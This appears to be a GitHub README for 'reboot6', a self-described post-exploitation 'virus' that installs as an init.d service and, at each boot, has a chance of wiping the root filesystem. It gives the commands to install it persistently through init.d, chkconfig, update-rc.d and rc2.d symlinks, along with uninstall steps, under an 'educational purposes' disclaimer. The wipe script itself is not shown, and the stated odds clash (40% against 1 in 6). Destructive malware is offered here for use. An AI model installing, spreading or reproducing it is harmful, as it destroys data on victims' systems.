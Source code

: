 # reboot6

/*
An init.d reboot virus that's inspired from Russian Roulette Linux.
This is a post exploit/virus that needs root privs and full access on the host/remote host in order for this to work.
What it does: creates an init process that has a 40% chance of wiping the root ( / ) of the file system durring the bootup (reboot) process.
Why 40%? Why not 100%? Because I'm not a evil person. And this gives the Victim machine the possibilty to remove the exploit/virus.
Like Russian Roulette (Linux), there is a 1 in 6 chance you lose.
*/

# This software is intended only for educational purposes. USE AT YOUR OWN RISK. ###
# The project author and all contributors cannot be held liable for damage or loss of data resulting from the use of this repository's code. ###

# To INSTALL the script:
# ALL SYSTEMS
```sh
cp reboot6.sh /etc/init.d/reboot6
```
# RHEL and Fedora
```sh
chkconfig --add /etc/init.d/reboot6
```
```sh
chkconfig --level 125 /etc/init.d/reboot6 on
```
```sh
ln -s /etc/init.d/reboot6 /etc/rc2.d/S35reboot6
```
# Debian and Deriatives
```sh
update-rc.d reboot6 defaults
```
# To UNINSTALL the script:
# RHEL and Fedora
```sh
chkconfig --level 125 /etc/init.d/reboot6 off
```
```sh
chkconfig --del /etc/init.d/reboot6
```
# Debian and Deriatives
```sh
update-rc.d reboot6 disable
```
```sh
update-rc.d reboot6 remove
```
# ALL SYSTEMS
```sh
rm /etc/init.d/reboot6
```
